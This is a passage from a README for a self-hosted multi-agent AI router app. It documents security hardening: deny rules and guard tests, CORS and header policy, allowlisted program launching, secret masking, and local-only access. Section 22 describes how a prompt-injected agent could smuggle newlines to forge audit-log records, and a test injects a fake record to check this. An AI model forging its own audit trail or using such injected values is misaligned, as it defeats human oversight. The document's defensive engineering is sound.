  the same for the dev tooling, and `./setup-token.sh` **re-creates the storage one
  if a deploy lost it**.
- **🚨 Verify, don't trust.** After deploying, ask for both — in a private window:
  ```bash
  curl -s -o /dev/null -w '%{http_code}\n' https://your-host/router/storage/config.json   # want 403 / 404
  curl -s -o /dev/null -w '%{http_code}\n' https://your-host/router/tests/js/run.mjs       # want 403 / 404
  curl -s -o /dev/null -w '%{http_code}\n' https://your-host/router/api/sessions           # want 401, never 403
  ```
  JSON or source in the first two means the folder is exposed — stop and fix the
  rule before anything else. 🛑
- **🏰 The strongest option:** keep `storage/` **outside** the document root. If
  the one-folder design forces it inside, the deny rules above are mandatory, not
  optional.

### 🧪 17. The guards are proven, not assumed

A guard nobody requests is a guard you don't have, so each serving mode has a test
that **makes the real request** and fails loudly when a path comes back:

| Test | What it actually does |
| --- | --- |
| 🧪 `guards.test.php` | Boots `serve.php` on a loopback port and requests the live paths — files, bare folders, case variants, dotfiles, the `/api/*` exemption and lookalike names |
| 🟡 `apacheGuards.test.php` | Boots the local Apache with this folder as `DocumentRoot` and `AllowOverride All`, so the **shipped `.htaccess` files themselves** are what answer — `/tests`, `/storage`, the archived copy, and the dotfile rule over `.git/config`, `.git/HEAD`, `.git/objects/` and a nested `.git` |
| 🔴 `nginxGuards.test.php` | Lifts the `location` regexes out of `nginx.example.conf` and runs them through PCRE — the engine nginx matches with — so a rule that reopens a hole fails without nginx installed |
| 🪆 nested-copy checks | `guards.test.php` requests nested paths directly; `apacheGuards.test.php` does the same against the archived copy when one is present — the case a root-anchored rule misses |

Run them with the rest of the suite (*Tests*, below). 🌱

- 🚫 `tests/php/recursiveRead.test.php` — runs the real exec path guard against a temporary tree that holds `storage/`: `grep -r` and `du` over the root are refused and the entry is named, the same command narrowed to a clean subdirectory runs, and `cat` on an ordinary file is untouched.
- ✂️ `tests/js/directCall.test.mjs` — drives the real `Chat._callAgentCore` with streaming off and only `api.callProvider` stubbed, so a body cut off at the token ceiling produces the truncation sentence (model name and the **Config → Limits & Budgets** pointer included) instead of "the provider returned an empty response".

### 🌐 18. Closed by default in the browser, too

- 🚫 **No CORS wildcard — deliberately.** The API used to answer with
  `Access-Control-Allow-Origin: *`, which let **any** website on the internet
  `fetch()` this server and read the answers: every conversation, the memory and
  the whole config. The UI is served from this same origin and never needed it.
  Cross-origin is now refused unless the origin is explicitly listed in
  `ROUTER_CORS_ORIGINS` (comma-separated), and `Vary: Origin` keeps caches honest.
- 🛡️ **Security headers on every Apache response** — `X-Content-Type-Options:
  nosniff` (a `.js` can’t be talked into being a script of another type),
  `X-Frame-Options: DENY` (the console can’t be framed inside another site, so no
  clickjacking a SAVE button) and `X-XSS-Protection: 1; mode=block`. The built-in
  server adds `nosniff` to everything it serves, SPA fallback included.
- 🧊 **Cache policy is part of the contract** — HTML is `no-store`; JS and CSS are
  `no-cache, must-revalidate`, so a browser can never pair a new module with a
  month-old one (which is how an old `api.js` once ran beside a new `tools.js`).
  The UI you audited is the UI that loads. ✅
- 🔑 **The token never rides along** — it is stripped from every state bundle
  before that bundle is mirrored to the server or synced to another device (§1).
- 🙈 **What a *read* hands back is masked, and a copy with no token answers this machine only.** Both are
  measures in their own right, with their own accounts below: **[§20 🔐 masked reads](#-20-secrets--masked-going-out-restored-coming-back)**
  and **[§21 🏠 local-only](#-21-no-token-set--this-machine-only)**.

> ⚖️ **The honest caveat:** the app is only as safe as the operator's switches. Turn
> everything on, auto-approve writes, and point the root at `/` — and you have built
> yourself a very capable foot-gun. The design *makes the safe choice the default*
> and *makes the unsafe choice deliberate*, but it does not (and cannot) read your
> mind. Keep the root narrow, keep approvals on, and rotate your keys. 💙

### 🖥️ 19. Opening programs — a name, never a command line

An agent can open a **real desktop program** on the machine this app runs on (**Config → Permissions →
Shell access → Programs**). It could not do this usefully before: through `exec` a window was force-closed at the command
timeout while the whole turn waited on it.

- 🏷️ **The operator's list is the whole allowlist.** An agent may only **name** a program from
  `sandbox.programs`; the path and the arguments come from that config. No string a model writes ever
  reaches the OS launcher, so its quoting, `&`, `;` and `%` have nowhere to land — the same reason `exec`
  takes argv instead of a command line.
- 🪟 **Detached, so the window outlives the reply** — `cmd /c start` on Windows (the mechanism the built-in
  browser already opens Chrome/Edge with), a backgrounded process on POSIX. There is no timeout here to
  close what you asked to open.
- 🧾 **Audited as a start with no end.** A launch writes one `kind=program phase=start` line and no end
  line, which is what **Config → TRACE → EXEC** reads back as *started, never finished* — the case that
  format exists for.
- 🚫 **`.bat`, `.cmd` and `.ps1` are refused** as launch targets, because starting one means handing back the
  command shell or script host this whole design keeps away from a model. That refusal is by extension and
  is deliberately not overridable from the list; `exec_interpreters` is the door for script files, where the
  script is jailed to the allowed directories and inline code is still refused.
- 🙋 **Approval is the approval you already have** — *Ask / Allow / Deny* for **Opening programs** and
  **Closing programs**, plus Auto Approve, Auto Deny and the usual prompt.
- 🎯 **A close finds the *binary*, never the name.** Processes are matched by the file they are running from
  (`/proc/<pid>/exe` on Linux, one `Get-CimInstance Win32_Process` query on Windows, `ps` elsewhere) and
  compared as resolved paths. The older `tasklist` image-name filter made any other copy of that file on the
  machine into *"the same program"*, so a close could end something you never opened — a vendor's
  `helper.exe`, a second editor. If a host will not give up a process list, `close` **refuses** rather than
  falling back to the name.
- 🚪 **Closing is graceful first** (`taskkill /PID` posts WM_CLOSE; POSIX sends TERM), so a program can still
  ask about unsaved work; `force` ends the process outright. The reply names the pids it ended, and every one
  that refused with the reason (`access denied`, `already exited`) — `ok` means the program is gone, not that
  a signal was sent. A console program with no window has nothing to receive a close request, so it needs
  force.
- ⌨️ **Typing is a tool too — `window_type`, and it is really typing.** An agent with an open window can send
  keystrokes into it, live on screen: `window_open` Notepad, `window_type` the words, watch them appear. The
  program must already be running (typing into nothing throws instead of pretending), the window is brought
  forward and the keys sent in one motion, and each call carries at most 2000 characters — a long letter goes
  in several bursts, which is also what it looks like. Special keys arrive literally (`+`, `%` and friends are
  escaped, newlines become ENTER), the keystrokes are *never* written to the trace (it records that typing
  happened, not what was typed), and approval is its own switch — **Typing into programs** beside Opening and
  Closing. Windows only: it is the system's own keystroke injector, and POSIX has no single equivalent, so
  anywhere else refuses plainly. And the old rule still holds — the operator names the program, the model only
  supplies the keys.
- 📦 **A Store copy is still the same program.** On Windows 11 a program like Notepad *runs* from a
  WindowsApps path nobody configured, while the list holds the alias stub that launched it — so the match
  crosses that one boundary by file name, and only there, because neither side is a place a second copy
  could be hiding. `window_type` also waits a few seconds for a just-opened program to show up before
  concluding nothing is running, and checks the window really came forward before sending — a stolen focus
  fails loudly instead of typing into the wrong place.
- 🧾 **The trace is written by this app alone** — every field is stripped of control characters before it
  reaches `storage/exec.log`, so an argument carrying a newline cannot append a record of a command that
  never ran. Full account in **[§22](#-22-the-trace-is-written-by-this-app-alone)**.
- ⚠️ **Where the window appears matters.** A program opens in the session Apache runs in: started as a
  console process (`start.bat`) it appears on your desktop, but installed as a Windows **service** it lands
  in session 0 and nothing is ever visible. On POSIX it needs a desktop session — a headless host has nowhere
  to draw. The card states which of these is true on this host, so nobody guesses.
- 🔒 **Off by default** (`sandbox.programs_enabled`, empty list): updating an older install gains the tools
  and no capability at all until you add a program.

### 🔐 20. Secrets — masked going out, restored coming back

Three routes were handing back the very values they exist to protect. 🚨 It is worth being precise about why
that is worse than it sounds, because it is not "a leak of one secret" — **it is the same secret that guards
the other doors.**

- 🎯 **What came back, verbatim** — `GET /api/config` returned the **access token**, a **proxy URL with its
  password in it**, and every **provider API key**; `GET /api/mcp/servers` returned each MCP client's
  `headers` (the `Authorization: Bearer …`, and any other key header); `GET /api/mcp-server/config` returned
  every **friend's token**. The access token is what the front gate compares against, and a friend token is
  what `McpServer::authenticate()` compares against — so one read disclosed the keys to every gated route.
  🗝️➡️🚪
- 🙈 **What comes back now: `********`.** A single constant (`Config::SECRET_MASK`) and two functions —
  `Config::maskSecrets()` on the way out, `Config::restoreSecrets()` on the way in — so the mask is spelled
  once and cannot drift between routes. Masked: the access token, `sandbox.proxy_active` **when it carries
  credentials**, every value in an MCP client's `headers`, the MCP server's tokens, and its protected-paths
  entries that hold secrets. ✂️
- 🕳️ **Empty stays empty — the difference matters.** *"No token configured"* and *"a token you are not
  allowed to see"* are two different states, and the UI has to tell them apart: a fresh install must show an
  empty field (and the *run `setup-token.sh`* hint), not eight asterisks. So masking is applied **only to
  values that are actually set**. 🫥 A proxy with **no** username and password is not a secret either — it is
  a setting, and the panel still names the exit node you are routing through. 🌐
- ♻️ **Why masking cannot simply mean "never send it":** every panel in this app edits by **read → change
  one key → post the whole config back**. Hand a page a config with a blanked token and the very next toggle
  writes the blank back to disk — a wiped credential that shows up later as a server answering `401`, with
  nothing in the logs to say why. So the read masks and the **write restores.** 🔁
- 🧬 **Restore matches by *identity*, not by position.** An array index is not a name: reordering two MCP
  servers, or deleting one and adding another, would have put a stranger's header onto the wrong server (a
  live credential pointed at an endpoint you never configured). Matching is therefore: a **server by its
  `id`, then by its URL, then by its command line**; a **friend token by its id, then by its label**. Rename a
  server in the panel and its `Authorization` header still comes back — that is a test, not a hope. 🪪
- 🚮 **A mask with nothing behind it is dropped, and said so.** Add a brand-new server, leave the header box
  showing `********`, and there is no stored value to put back — so the header is **not written at all**
  rather than being saved as the literal asterisks, which would have been a credential that authenticates as
  nothing and looks like the far end's fault. The count is reported back on the save. 🧾
- ✍️ **A real value typed over the mask wins.** Paste a new key into that box and it is stored as typed —
  masking only ever stands in for "unchanged". 🔑
- 👁️ **A friend's token is visible exactly once** — when it is created, or when **ROTATE** is pressed: the
  server keeps it, and a later read answers the mask. The **COPY** button refuses to hand over a mask for the
  same reason the drop above exists: pasting `********` into a client authenticates as a wrong token, and the
  failure reads as the *server's* problem rather than as a copy that copied nothing. 📋🚫
- 🧪 **Proven, not assumed** — `tests/php/secrets.test.php` asserts the mask on every field, that empty stays
  empty, that a credential-free proxy stays readable, a **clean round-trip restores every secret**, a renamed
  server keeps its header (URL match), an unresolvable mask is **dropped and counted**, and a typed value
  beats the mask. ✅

### 🏠 21. No token set — this machine only

`./setup-token.sh --off` prints that it is fine on *"a machine nothing else can reach"* — and until v360
nothing enforced it. On a copy behind a web server bound to all interfaces, that was not a theoretical gap:
**`POST /api/sandbox/program` is a program launcher an agent can reach**, `POST /api/sandbox/exec` runs
commands, and `GET /api/config` — the route from §20 — **answered with the very token that guards the routes
which *were* protected.** 🚪🔓

- 🧭 **Now the documented posture is the enforced posture.** With `require_token` off, a request whose peer
  address is **not loopback** gets **`403 {"error":"local requests only"}`**, plus the one-liner that fixes it:
  `./setup-token.sh` (or `start.bat -Token` on Windows), then paste the token into **Config → Access token**
  on each device — after which the copy is reachable from anywhere again, which is what a token is for. 🔑
- 🔁 **Loopback means all of `127.0.0.0/8`**, plus `::1` and the IPv4-mapped `::ffff:127.0.0.1` that some
  Windows stacks report. Every spelling is asserted in the suite, along with a LAN address, another private
  address and a public one — none of which are local. 🧪
- 🧱 **A reverse proxy no longer defeats it.** The rule used to trust the socket peer alone, so nginx or
  Apache on the same host connected from `127.0.0.1` and **every internet visitor looked local**. A forwarding
  header (`X-Forwarded-For`, `X-Real-IP`, `Forwarded`, `CF-Connecting-IP`) now marks a request as proxied, and
  the client is read from it **only when the peer is a proxy you listed** in `sandbox.trusted_proxies`
  (`storage/config.json`; addresses or CIDR — `["127.0.0.1", "10.0.0.0/8"]`). An **undeclared** proxy is
  refused outright, because the header is then just something the caller typed. `X-Forwarded-For` is read from
  the **right**, so a spoofed left-most `127.0.0.1` cannot win. 🔍
- 🔧 **The proxy has to forward the client.** The check needs the header to exist: nginx wants
  `proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;`, and a bare Apache `ProxyPass` sends nothing.
  A proxy that forwards no address is indistinguishable from a local request at the HTTP layer — which is
  what the switch below is for.
- 🎚️ **Config → Permissions → Remote access → "Judge proxied requests by the client"** turns the whole
  rule off (default **on**). Off restores the socket-peer test, and is only right when your proxy forwards no
  client address at all — with the gate off and no token, it reopens exactly the hole described above.
  Saved as `sandbox.local_only_strict`; a config written before the key existed keeps it **on**. 🛡️
- 🕳️ **No peer address passes only in the CLI.** A web request without one is a broken SAPI, not a local
  visitor, so it is refused instead of inheriting the CLI exemption. 🖥️
- 🎭 **The `Host` header is deliberately not consulted.** It is client-supplied, so a rule like "the Host
  matched the peer address" would let anyone in by naming **their own** address in the request. The decision
  is made on the **socket** — or, behind a declared proxy, on the address that proxy forwards. 🚫
- 🤝 **The MCP RPC route is exempt, on purpose.** `POST /api/mcp-server` exists for other machines and keeps
  its own **per-friend Bearer token** with a **read / write / exec** scope ceiling, an optional IP allowlist
  and one-click revoke (§12). It is the one door this rule must leave open — and it is a *door*, not a hole:
  the caller is authenticated before anything runs. 🔐

### 🧾 22. The trace is written by this app alone

`storage/exec.log` is the audit trail — the two-phase `run=… phase=start|end` record that **Config → TRACE →
EXEC** reads back, that pairs a command's start with its end, and that shows an opened window as *started and
still running*. 🧾 Its authority depends on one property: **one line per record.** 📏

- 🪤 **So a newline is a forgery.** Free text reaches these fields — the **agent name** arrives in the tool
  call, and every **argv element** is whatever a model sent. A `\n` in either one would let a prompt-injected
  agent **append a hand-written line** describing a command that never ran (or, worse, make a real one look
  like part of a different record) — the audit trail quietly rewritten by the thing it is auditing. 🎭
- 🛡️ **Stripped at the one chokepoint, not at the callers.** Sanitising lives **inside `Sandbox::audit()`**,
  which `exec`, `run_code`, `window_open` and `window_close` all pass through — so a future caller cannot
  forget it, and it runs **before** the shell-quoting decision below, so a quote-escaped argument cannot carry
  a line break through the escaping. 🚧
- 🧬 **Two shapes, because the line carries two kinds of field.** The fields the reader takes as a **single
  token** (`run`, `phase`, `kind`, `agent`) lose everything from the first break onward and any character
  outside `[\w.:@-]` — a space there would split the field and make the whole line unparseable, which would
  lose a **real** record while stopping a forged one. Free text (`cwd`, the program, the argv) turns breaks
  into a space and is capped (240 characters per field, 12 argv elements), so one enormous argument cannot
  bloat the log either. ✂️ An empty token becomes `-`, because an empty field breaks the reader's pattern. 🩹
- 👀 **The reader still shows the interesting failure.** Start and end lines are paired by their `run` id, and
  a start with no end comes back as `finished: false` — *started, never finished* is exactly the row you want
  to see after a crash or a kill mid-command, so it is surfaced rather than hidden. 🔍
- 🧪 **Proven** — `tests/php/programs.test.php` §5d writes an audit entry whose agent name contains a newline
  and a complete fake record (`run=forged-inject phase=start …`), then asserts the real run is still recorded
  in one piece **and that the forged run id never becomes an entry of its own**. ✅

### 🧪 23. The test suite cannot touch the trace — or another file's server

`tests/` is dev tooling the app never loads, and it now runs **four files at a time**. That is only safe because
the two things those files used to share were taken away first — and both of them were **state this app's own
security rests on**. 🧪

- 🧾 **The audit trail is not a scratch file.** `storage/exec.log` is the two-phase record covered in **§22**: the
  answer to *"did anything actually run?"*. Two test files wrote it, and each remembered its size on entry and
  **truncated it back on the way out** — tidy when you are the only writer, and a **deletion of another file's
  lines** the moment you are not, which is exactly what running them at the same time makes them. A test run could
  be mistaken for real commands, and a real command's record could vanish under one. The trace a test writes now
  goes to a directory of that file's own: `Sandbox::logDir()` honours `ROUTER_LOG_DIR`, the runner sets it per
  file, and `storage/mcp.log` (**§12**) goes the same way. Running the whole suite leaves the operator's
  `exec.log` and `mcp.log` **byte-identical** — measured, not hoped. 🛡️
- 🔒 **The redirect cannot be reached from outside.** `ROUTER_LOG_DIR` is read from the **process environment**.
  There is no route, header, query string or config field that sets it, so no request and no model can move, hide
  or read a log by asking for it, and unset — the normal state — keeps `storage/` exactly as it was. Its only
  reachable effect is to add a directory that a test writes to. 🚫
- 🌐 **Loopback only, and a port of its own.** Every server the suite starts binds **`127.0.0.1`** and never
  `0.0.0.0` — the generated Apache config is literally `Listen 127.0.0.1:<port>` — and the port is now a walk
  from `21000 + pid % 4000`, which stays **below the OS's ephemeral range**. The old way asked the OS for "any
  free port" (`tcp://127.0.0.1:0`), which is a race the moment two files ask at the same moment: the number
  returns to the pool as the socket closes, so both can be handed the same one and one file ends up **talking to
  the other file's server** — assertions answered by a server it never started. A port a real service is *using*
  is no longer a candidate either, which matters because a bind failure there looks exactly like a broken build. 🧭
- 🙋 **Separate processes, for the same reason as ever.** The suite separates its files so one cannot colour
  another's result (**§17**). A file that can reach into another file's socket or log can report green for
  something it never checked, so "each file is its own process" has to stay true down to the port it binds and
  the file it writes. ✅
- 🧪 **Proven** — six consecutive four-wide runs plus `--jobs 8` and `--jobs 2`, all green with identical counts;
  sampling `netstat` during a run caught **seven simultaneous listeners, all inside the pid-derived band and none
  of them repeated**; run by itself with `ROUTER_LOG_DIR` set, `sandbox.test.php` writes its 9 audit lines into
  that directory while the install's `exec.log` is unchanged; and a full fresh-copy check — `PHP 28 files, 28 passed, 1,263 assertions, 5 skipped` and `JS 31 files, 31 passed, 836 assertions` — costs about 31s end to end. 🔬

> 🧷 **One rule underneath all of this:** nothing that a model can *write* ever becomes a decision the app
> obeys. A name, not a path; argv, not a command line; a mask, not a credential; the peer address, not the
> `Host` header; one token, not two records. That is the whole design, repeated in five different places. 💙

---
## 🖥️ Two interfaces, one switch

Both shells are the same application: one store, one set of components, one feature list. `settings.interfaceMode` decides which decoration is worn, and it applies the moment you pick it in **Config → Interface** — no reload, no second install, and **no feature that exists in only one of them**.

<details>
<summary>Comparison table, layout map and the two rules</summary>

| | 🗂️ **Classic** *(the default)* | 💎 **Desktop 2026** |
| --- | --- | --- |
| Layout | setup · chat · map, side by side | floating glass cards on an edge rail, map front-centre |
| Config | collapsible sections in the left panel | drawers that fly out of their label — and **retract back into it** as one motion |
| Chat | standard width | **440px** by default, drag the edge to widen, or throw it to the full screen |
| Panels | always where they are | optional **tuck-away** while a node's card is open |
| Glass | flat — no blur, no glow, no drift | frosted cards, border glow, ambient motion: every one adjustable, every one switchable off |
| Map controls | inside the map panel | lifted into the header, centred over the apps notch |
| Below 1025px | slide-over drawers | the same slide-over drawers |

```
                            DESKTOP 2026 — where things live
+-------------+---------------------------------------+-------------+
|   RAIL      |                  CHAT                 |     MAP     |
|             |                                       |             |
| sessions    | drag the edge to widen, or            | nodes,      |
| agents      | throw it to the full screen.          | beams,      |
| providers   | 440px by default.                     | fog, floor  |
| config ---> |                                       |             |
| mcp         |                                       | 3D / 2D     |
+-------------+---------------------------------------+-------------+
      ^ Config flies out of its label, then retracts back into it

  CLASSIC is the same app with all three panels always open:
  +--------------+-------------+---------------+
  |    SETUP     |    CHAT     |      MAP      |
  +--------------+-------------+---------------+
```

> 🗂️ **Config, tidied.** The Config tab is split into collapsible sections —
> **Interface · Limits & Budgets · Permissions · Labs · Resource Manager ·
> Throttle / Limiter · MCP Client · MCP Server**, with **Desktop** appended as its
> own card (see *Config → Desktop* above) — each carrying a live status badge on
> its header. It also **rescues numbers you typed but haven't Saved yet**, so
> switching tabs mid-edit never silently discards them.

Two rules kept that honest:

- 🧩 **The choice is the only switch.** Nothing else forks. `ui/js/desktop2026.js` *decorates* the DOM the existing components already render — it owns no state and no feature — so a bug in the shell can never take one with it.
- 📱 **Narrow windows are untouched.** Under 1025px both shells resolve to the same slide-over drawer layout, which is why the phone view looks and behaves exactly as it always did.

</details>

---
## 🎛️ Config → Desktop — the machine-room card



The card is in **both** shells on purpose. Most of it is the map — fog, bloom, floor, frame rate, detail — so Classic gets it too. The rows that address the glass (chat background, blur, glow, ambient motion, the floating floor) stay **visible** in Classic with their saved values but are disabled there, because there is no glass to tune. Nothing is hidden and nothing is lost. 🧷

<details>
<summary>Knob-by-knob table, the preset, topography and defaults</summary>

### 🧮 What each knob buys

| Knob | Fresh default | Relative GPU cost | What it does |
| --- | --- | --- | --- |
| 🌫️ **Glass blur** | **1px** | ██████████ **the big one** | `backdrop-filter` behind every card — a live canvas re-composited each frame |
| 🎚️ **Map detail** | **100%** | ███████ | internal resolution: 100 / 85 / 70 / 55 / 42% of the pixel-ratio cap |
| ✨ **Bloom glow** | **on** | ██████ | multi-pass blur halos on nodes and beams |
| 🟠 **Floating floor** | **on** | ████ | the big screen-blended polar grid layer over the canvas |
| 🎞️ **Frames per second** | **60** | ███ | hard cap on redraws (1–60) |
| 🟣 **Glow & border animation** | **100%** | ██ | the colour running around card borders |
| 🌀 **Ambient motion** | **100%** | ██ | background sweep, floor scan, the slow breathing |
| 🔄 **Slow auto-rotate** | **on** | █ | idle camera drift, 12s after you stop touching the map |
| 💬 **Chat background** | **4%** | ░ free | how much of the map shows through the chat |
| 📌 **Fix the floor in place** | **on** | ░ free | keeps the fallback grid still in the window |
| 🪶 **Tuck panels away** | **on** | ░ free | slides the rail and the chat aside while a node card is open |
| 🐢 **Performance mode** | **off** | — | one click: the cheap column, still editable |

Every row is a normal setting with its own control — the defaults above are defaults, not law. 🎛️

### ⚡ Performance mode is a preset, not another mode

One switch writes **the same nine settings the controls above already own** — blur 0, glow 0, motion 0, fog off, 30fps, 70% detail, bloom off, floating floor off, auto-rotate off — plus Resource Manager's **pause-when-covered** and **idle throttle**.

- 🧷 **It only ever tightens** — already at 24fps? it keeps 24, not 30.
- ↩️ **Switching it off gives your numbers back** — it restores the values it actually wrote, and a knob you moved by hand in the meantime keeps *your* value instead of being silently reverted.
- 🔍 **Every row stays visible**, so you can see exactly what it did and undo one part of it without undoing the rest.
- 🚫 **Nothing is removed, hidden or disabled** by the preset — which is the whole point of it being a preset.

### 🗺️ The topography, in detail

- 🌫️ **Background fog** — a haze that begins past the polar grid, under the graph, and reaches the top of the panel. Since **v336** it is drawn as the **scene background in screen space**, not as fog in the world: it cannot orbit, slide or zoom with the map, and it always fills the window. The checkbox turns it on and off; the scene still knows a third, older "full fog" mode internally (`topoFog: 0`), which the card deliberately does not offer.
- ✨ **Bloom** — the glow on every node and beam comes from one post-process pass, not from per-object tricks. Off keeps every emissive colour and drops the multi-pass blur.
- 🟠 **Floating floor** — the fixed polar grid belongs to the glass shell, so Classic always uses the cheap grid that lives inside the scene. In Desktop 2026 the DOM floor layer is the expensive one: a `150vmax` screen-blended element over the canvas.
- 📌 **Fix the floor in place** — the in-scene grid is part of the world, so orbiting carried it around and a low angle squashed it into a line. This holds it at the same spot in the window while orbiting, dragging and zooming all keep working. It only means something while the floating floor is **off**, so the row is disabled (not hidden, and keeping its value) whenever the floating floor is showing.
- 🎚️ **Map detail** — five explicit steps. **This is the one that used to degrade itself:** the map silently stepped its own resolution down whenever a frame ran long, which on a slower machine read as three or four visible “flashes” of the lines getting fuzzier a few seconds after load. It is manual now and stays exactly where you put it — and each step also holds the **composer** (bloom’s mip chain included) at that resolution, so the saving is real instead of a smaller final blit.
- 🎞️ **Frames per second** — a hard cap, 1 to 60, independent of everything else.
- 🔄 **Slow auto-rotate** — the drift resumes 12s after you stop. Off parks the view until you orbit it yourself, which is also what lets the scene — and everything composited over it — go genuinely idle.

> 💡 **On a low-powered machine:** glass blur to **0** (0 removes the backdrop layer entirely — `blur(0px)` would still cost one), bloom and the floating floor **off**, detail **70%**, cap **30fps** — or just click **Performance mode** and adjust from there. Every one of those is reversible. 🔁

### 🎚️ Defaults on a fresh install

| Section | Defaults |
| --- | --- |
| 🖥️ **Desktop** | tuck panels away **on** · chat background **4%** · glass blur **1px** · glow **100%** · ambient motion **100%** · background fog **on** · bloom **on** · floating floor **on** · floor **pinned** · auto-rotate **on** · map detail **100%** · **60fps** · performance mode **off** |
| 🧪 **Labs** | dynamic tools **on** · dialect memo **on** · API pool **on** · Keep Live when hidden **on** · built-in **Browser off** |
| 🧮 **Resource Manager** | all four switches **off** |

Saved settings always win: a fresh copy starts here, and an existing install keeps whatever you already chose until you move that control. 💾

</details>

---

## 🖼️ Images & vision

Drop an image into the composer and a vision-capable agent can see it. 👁️🖼️

<details>
<summary>Paste, drop or pick, safety and per-agent vision</summary>

- 📎 **Paste, drop or pick** — the bytes **never touch the server**. They become an in-memory `data:` URL and ride in the request's `image_url` field: 🚫 no upload endpoint, 🚫 no file on disk.
- 🛡️ **Safe by construction** — only 🖼️ PNG / 📷 JPEG / 🎞️ WebP / 🎬 GIF are accepted, all inert when sniffed, which keeps the polyglot *"image that is also a script"* family out.
- 🤖 **Per-agent** — only models that actually support vision get the attachment; everyone else is unaffected.

</details>

---
## 🎙️ Voice & audio

Talk to the team, and let them talk back. 🗣️🔊

<details>
<summary>Speech-to-text, spoken replies, engines and pitch</summary>

- 🎤 **Speech to text** — the mic button turns your voice into a message in the composer.
- 🔊 **Speak replies** — a speaker button reads any reply aloud; flip **Speak every reply automatically** to hear them all.
- 🧰 **Two engines** — use your provider's TTS, or the browser's 🏠 built-in voices (works offline, no API, no key). Pick the engine, provider and voice.
- ⏩ **Speed** and 🎚️ **pitch** — tune playback; pitch reads higher as female, lower as male. 🤖 **Each agent can override the pitch**, so a whole roster can sound distinct.

</details>

---
## ⌨️ Slash commands

Type `/` in the composer for a palette of everything you can address. ⌨️✨

<details>
<summary>Targets, app commands and quick reference</summary>

- 🎯 **Target an agent** — `/CODE`, `/ROLE`, `/NAME` or `/ALL` sends your next message to one agent, a role, or the whole team.
- 🧭 **App commands** — the palette also lists the app's own commands, and never suggests one that wouldn't work here.
- ❓ **`/?`** — a quick reference, right in the input box.

</details>

---
## ♾️ Always-On — the loop that runs itself

Give an agent a **standing goal** and this app re-invokes it on a timer, one turn
at a time, until it finishes or you stop it. It is the difference between *"ask
the model a thing"* and *"hand the model a job and walk away."* 🚶♂️💨

<details>
<summary>Goals, cadence, badges, caps, kill switch and tips</summary>

- 🎯 **A standing goal per agent** — set it in the agent editor (or Brain Lab). Every tick, the agent is re-prompted with its goal, the iteration number, and a plain instruction to **make concrete progress now using its tools.**
- ⏱️ **A cadence you own** — the interval lives in **Config → Limits & Budgets** (default generous, because every iteration is **billed**). 💸
- 🧭 **An honest badge** — each agent card shows **RUNNING** while it works, **HELD** when it's parked, and idle otherwise, so a glance tells you the truth.
- 🛑 **Stop one, release one** — click an agent's **ALWAYS ON** badge to stop that run without switching the agent off. It becomes **HELD**; click again to release it and resume next tick.
- 🧰 **Release *everyone* in one click** — **Config → Permissions → Always-On** shows how many agents are held and a **RELEASE HELD AGENTS** button, so a roster parked by a cap (or by hand) is never a trap you have to click through one agent at a time.
- 🧨 **Two spend caps, both off by default** — **Max iterations** and **Max minutes**. When a cap trips the agent is **parked and held** (that's the point of a spend guard) and the status line tells you when a cadence is long enough that the cap would fire after a *single* tick — so you can set it to `0` and loop forever if that's what you want.
- 🔌 **Survives leaving the tab** — flip **Config → Permissions → Run while tab is hidden** and the timer is driven by a **Web Worker** (page timers are throttled hard in a background tab), with the in-flight turn no longer aborted the moment you switch away. Come back and it ticks immediately.
- 🧯 **Master kill switch** — **Config → Permissions → *Enable always-on*** stops everything at once, aborts in-flight autonomous turns, and **releases everyone** so switching it back on is a clean, working reset.
- ✅ **Only the right agents run** — an agent needs a standing goal **and** its own always-on switch **and** to be active **and** not held before the scheduler will touch it.
- 🧵 **Runs in the page, by design.** There is no server-side runner — this stops when the tab closes, which is exactly why it's cheap and easy to reason about.

> 📝 **Tip:** a standing goal of `idle` (or two words) gives the agent nothing to
> aim at, so it will wander and "explore." Give it a real objective — *"run the
> test suite and fix failures until green."* The status line in Config tells you
> roughly how many turns/hour that will cost.

</details>

---
## ❝ Global pre-prompt override — one instruction for the whole fleet

A single box in the **Agents-tab header** (§ button) that reaches **every agent's
system prompt**, on every call path — main chat, ask-directly and routing-chart
runs alike. ✨

<details>
<summary>Prepend or replace, live toggle and the tool-fight fix</summary>

- 🧩 **Prepend (default) or Replace — your call.** A toggle **inside the popup**
  (bottom-left) picks the behaviour, and the hint above the box updates to match:
  - **Prepend (off, default)** — the override is placed **in front of** each agent's own prompt, which still follows. Best for a house rule that everything should obey. 🏠
  - **Replace (on)** — the override **stands in for** the agent's prompt. Best for a temporary "everyone answer like *this*." 🎭
- 🪄 **Toggle it live** — **Edit** to write it, **Activate / Deactivate** to arm it without opening the editor. The button **pulses** while it's armed. 💠
- 🔒 **Stored prompts are never harmed** — the moment you switch it off (or flip back to Prepend), every agent's own prompt returns exactly as it was.
